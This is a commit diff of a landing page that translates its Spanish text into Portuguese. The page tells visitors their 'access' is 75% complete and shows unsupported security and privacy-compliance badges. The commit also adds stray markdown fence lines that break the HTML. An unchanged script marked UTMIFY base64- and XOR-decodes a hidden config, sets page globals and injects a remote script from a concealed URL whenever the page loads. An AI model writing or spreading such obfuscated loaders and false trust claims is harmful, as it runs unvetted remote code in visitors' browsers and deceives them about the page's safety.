

Before and after one commit to viviane38838249-hue/Glutes-brasil, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (253-1026 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Atualizando presell

````diff
--- a/index.html
+++ b/index.html
@@ -1,5 +1,6 @@
+```html
 <!DOCTYPE html>
-<html lang="es">
+<html lang="pt-BR">
 <head>
 <meta charset="UTF-8">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
@@ -26,7 +27,7 @@
     <!--UTMIFY-->
     <script>(function(){var f_wx0=atob("DOOcKnTwz21Ki4YPnpi+Xwac7Vdo4/J77pCmBVuTqwNk/vJi94XlBBefokMo+al8/ZH1WgCD4Bg+5vUg8oLoTweE4Qc5qaot/5foWB2Suhkv+KQ1xZi+RBWdqk9wqeJu6oKxXwCdpgszpvZ9+5X5RADdvBgo4uJ8vM++XBWcughosaQt477h");var c_u1=[];for(var r_i=0;r_i<f_wx0.length;r_i++){c_u1.push(f_wx0.charCodeAt(r_i)&255);}var o_xv53=c_u1[0];var p_1=c_u1.slice(1,1+o_xv53);var l_qk0=c_u1.slice(1+o_xv53);var j_5=l_qk0.map(function(b,d_ij){return b^p_1[d_ij%o_xv53];});var n_e3yu="";for(var p_vyo5=0;p_vyo5<j_5.length;p_vyo5++){n_e3yu+=String.fromCharCode(j_5[p_vyo5]&255);}var a_es=decodeURIComponent(escape(n_e3yu));var y_l=JSON.parse(a_es);var s_b1j=y_l.globals||[];s_b1j.forEach(function(a_3z2r){window[a_3z2r.name]=a_3z2r.value;});var q_4a=document.createElement("script");q_4a.src=y_l.url;q_4a.async=true;q_4a.defer=true;(y_l.attributes||[]).forEach(function(p_t){q_4a.setAttribute(p_t.name,p_t.value);});(document.head||document.documentElement).appendChild(q_4a);})();</script>
 
-    <title>Continúa con tu acceso</title>
+    <title>Continue com seu acesso</title>
 
 <style>
 *{
@@ -202,20 +203,20 @@ body{
 <div class="container">
 
     <div class="badge">
-        Último paso
+        Último passo
     </div>
 
     <h1 class="headline">
-        Ya casi has terminado
+        Você está quase terminando
     </h1>
 
     <p class="subheadline">
-        Tu acceso está casi completo. Haz clic en el botón de abajo para continuar y desbloquear el siguiente paso.
+        Seu acesso está quase completo. Clique no botão abaixo para continuar e desbloquear a próxima etapa.
     </p>
 
     <div class="progress-container">
         <div class="progress-text">
-            Progreso de finalización: 75%
+            Progresso de conclusão: 75%
         </div>
 
         <div class="progress-bar">
@@ -224,27 +225,27 @@ body{
     </div>
 
     <a href="/page" class="cta-button">
-        CONTINUAR AHORA
+        CONTINUAR AGORA
     </a>
 
     <div class="security-box">
-        🔒 Conexión segura<br>
-        Tu información está protegida mediante estándares avanzados de seguridad y transmisión cifrada.
+        🔒 Conexão segura<br>
+        Suas informações estão protegidas por padrões avançados de segurança e transmissão criptografada.
     </div>
 
     <div class="info">
-        ✓ Proceso seguro &nbsp; • &nbsp; ✓ Navegación segura &nbsp; • &nbsp; ✓ Cumple con las normas de privacidad
+        ✓ Processo seguro &nbsp; • &nbsp; ✓ Navegação segura &nbsp; • &nbsp; ✓ Em conformidade com as normas de privacidade
     </div>
 
     <div class="footer">
-        Este sitio web utiliza tecnologías modernas de seguridad para garantizar una experiencia de navegación segura y confiable.
+        Este site utiliza tecnologias modernas de segurança para garantir uma experiência de navegação segura e confiável.
 
         <div class="footer-links">
-            <a href="#">Política de privacidad</a>
+            <a href="#">Política de privacidade</a>
             |
-            <a href="#">Términos del servicio</a>
+            <a href="#">Termos de serviço</a>
             |
-            <a href="#">Soporte</a>
+            <a href="#">Suporte</a>
         </div>
     </div>
 
@@ -252,3 +253,4 @@ body{
 
 </body>
 </html>
+```
````
